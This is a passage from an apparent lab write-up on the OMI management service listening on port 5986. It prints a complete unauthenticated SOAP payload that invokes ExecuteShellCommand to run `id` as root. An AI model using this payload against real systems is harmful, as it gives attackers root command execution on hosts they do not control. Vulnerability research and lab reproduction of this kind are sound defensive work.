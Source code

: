 Restart the `omid` service with `systemctl restart omid`and we should now have it listen on port `5986`:

```sh
$ ss -tlpn

State              Recv-Q             Send-Q                         Local Address:Port                         Peer Address:Port             Process
LISTEN             0                  128                                  0.0.0.0:111                               0.0.0.0:*                 users:(("rpcbind",pid=721,fd=4),("systemd",pid=1,fd=39))
LISTEN             0                  128                                  0.0.0.0:22                                0.0.0.0:*                 users:(("sshd",pid=792,fd=4))
LISTEN             0                  128                                     [::]:111                                  [::]:*                 users:(("rpcbind",pid=721,fd=6),("systemd",pid=1,fd=41))
LISTEN             0                  128                                     [::]:22                                   [::]:*                 users:(("sshd",pid=792,fd=6))
LISTEN             0                  15                                         *:5986                                    *:*                 users:(("omiengine",pid=22084,fd=6))
```

At this point everything should be in place to play around with the 4 different set of vulnerabilities reported. Let's have a quick look at the remote code execution vulnerability (

### Remote Code Execution

The vulnerability is pretty straightforward, it allows passing a simple SOAP message to the service and without setting any authorization headers it will execute a given command as the root user. The soap message to execute the `id` command looks as follows;

```xml
<s:Envelope xmlns:s="http://www.w3.org/2003/05/soap-envelope" xmlns:a="http://schemas.xmlsoap.org/ws/2004/08/addressing" xmlns:h="http://schemas.microsoft.com/wbem/wsman/1/windows/shell" xmlns:n="http://schemas.xmlsoap.org/ws/2004/09/enumeration" xmlns:p="http://schemas.microsoft.com/wbem/wsman/1/wsman.xsd" xmlns:w="http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd" xmlns:xsi="http://www.w3.org/2001/XMLSchema">
   <s:Header>
      <a:To>HTTP://192.168.1.1:5986/wsman/</a:To>
      <w:ResourceURI s:mustUnderstand="true">http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem</w:ResourceURI>
      <a:ReplyTo>
         <a:Address s:mustUnderstand="true">http://schemas.xmlsoap.org/ws/2004/08/addressing/role/anonymous</a:Address>
      </a:ReplyTo>
      <a:Action>http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem/ExecuteShellCommand</a:Action>
      <w:MaxEnvelopeSize s:mustUnderstand="true">102400</w:MaxEnvelopeSize>
      <a:MessageID>uuid:0AB58087-C2C3-0005-0000-000000010000</a:MessageID>
      <w:OperationTimeout>PT1M30S</w:OperationTimeout>
      <w:Locale xml:lang="en-us" s:mustUnderstand="false" />
      <p:DataLocale xml:lang="en-us" s:mustUnderstand="false" />
      <w:OptionSet s:mustUnderstand="true" />
      <w:SelectorSet>
         <w:Selector Name="__cimnamespace">root/scx</w:Selector>
      </w:SelectorSet>
   </s:Header>
   <s:Body>
      <p:ExecuteShellCommand_INPUT xmlns:p="http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem">
         <p:command>id</p:command>
         <p:timeout>0</p:timeout>
      </p:ExecuteShellCommand_INPUT>
   </s:Body>
</s:Envelope>
```
